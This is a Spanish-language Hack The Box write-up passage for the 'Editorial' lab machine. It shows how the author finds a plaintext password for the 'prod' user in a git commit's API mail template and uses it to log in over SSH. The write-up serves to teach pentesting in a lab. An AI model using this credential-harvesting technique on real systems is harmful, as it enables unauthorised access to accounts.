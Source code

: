 ## User pivoting

Antes de enumerar todo el sistema, inspeccioné manualmente los archivos disponibles.

En el directorio personal del usuario 'dev', encontré un subdirectorio llamado 'apps', que contenía un repositorio '.git' con varios commits.

```terminal
dev@editorial:~/apps/.git/logs$ cat HEAD

0000000000000000000000000000000000000000 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 dev-
carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905723 -0500   commit 
(initial): feat: create editorial app

3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 1e84a036b2f33c59e2390730699a488c65643d28 dev-
carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905870 -0500   commit: 
feat: create api to editorial info

1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-
carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500   commit: 
change(api): downgrading prod to dev

b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dfef9f20e57d730b7d71967582035925d57ad883 dev-
carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906471 -0500   commit: 
change: remove debug and update api port

dfef9f20e57d730b7d71967582035925d57ad883 8ad0f3187e2bda88bba85074635ea942974587e8 dev-
carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906661 -0500   commit: 
fix: bugfix in api port endpoint
```

Al revisar el commit titulado 'downgrading prod to dev', descubrí las credenciales para el usuario 'prod'.

```terminal
dev@editorial:~/apps/.git/logs$ git show 1e84a03

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and
can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for
our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease
be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to
reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, "
+ api_editorial_name + " Team."
```

```terminal
/home/kali/Documents/htb/machines/editorial:-$ ssh prod@10.10.11.20
prod@10.10.11.20's password: 080217_Producti0n_2023!@
```

---